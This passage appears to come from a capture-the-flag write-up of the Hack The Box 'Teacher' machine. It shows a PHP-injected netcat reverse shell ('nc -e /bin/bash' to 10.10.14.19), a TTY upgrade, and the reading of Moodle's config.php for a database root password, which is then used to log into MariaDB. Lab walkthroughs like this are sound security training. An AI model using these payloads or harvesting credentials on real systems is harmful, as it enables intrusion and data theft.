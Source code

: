 ```php
&bigb0ss=(nc -e /bin/bash 10.10.14.19 9001)
```

![image](/assets/img/post/htb/teacher/18.png)

Let's use the following one-liner to get a full `TTY` shell.

```console
python -c 'import pty;pty.spawn("/bin/bash")'

Ctrl+z

$ stty raw -echo
$ fg
```

# Privilege Escalation

## www-data --> giovanni (MySQL DB)

Further enumeration found that `root` password for moodle DB. 

```console
www-data@teacher:/var/www/html/moodle$ ls -la | grep config
-rw-r--r--  1 root root  45850 Jun 27  2018 config-dist.php.bak
-rw-r--r--  1 root root    728 Nov  3  2018 config.php
-rw-r--r--  1 root root    747 Nov  3  2018 config.php.save
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);
```

Let's login to `mysql`:

```console
www-data@teacher:/var/www/html/moodle$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 397
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
```